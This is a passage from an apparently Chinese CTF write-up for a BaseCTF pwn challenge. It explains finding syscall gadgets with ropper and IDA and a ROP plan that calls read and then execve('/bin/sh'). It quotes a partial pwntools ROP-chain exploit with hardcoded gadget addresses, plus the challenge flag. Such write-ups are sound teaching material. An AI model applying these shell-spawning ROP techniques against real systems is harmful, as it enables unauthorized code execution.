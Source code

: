 `ropper --file 文件名 --search "syscall; ret"`

这里我还推荐另一种方法，使用IDA直接查syscall; ret指令：**直接在IDA按 alt+b , 搜 0f 05 c3**

在搜集完所有gadget后，解题思路就是利用栈溢出，通过syscall调用read函数，把`/bin/sh\x00`读入到`bss`段中，然后通过syscall调用execve函数，来获得权限

[Linux系统调用表(system call table)](https://blog.csdn.net/shuzishij/article/details/87005219)

exp如下：

<div align=center><img src="../images/2024/09/03/BaseCTF2_Pwn/pwn20.png" alt="pwn" border="0" width="70%" height="80%"></div>

这道题我就不解释exp了，这一题和**Week1的彻底失去她**很像，只不过这道题用到了**syscall指令**

flag为: BaseCTF{87c5baec-bf41-4051-b723-d942df834b2d}

后面看了下WP，用了ROPgadget的一个一把梭命令：

`ROPgadget --binary 文件名 --ropchain`

官方WP如下：

```
from pwn import *
from struct import pack #要自己补充的
io=process('./pwn') 
p = b'' # 从这里开始就是从ROPgadget复制的

p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
p += pack('<Q', 0x0000000000419484) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x000000000043d350) # xor rax, rax ; ret
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000401f2f) # pop rdi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
```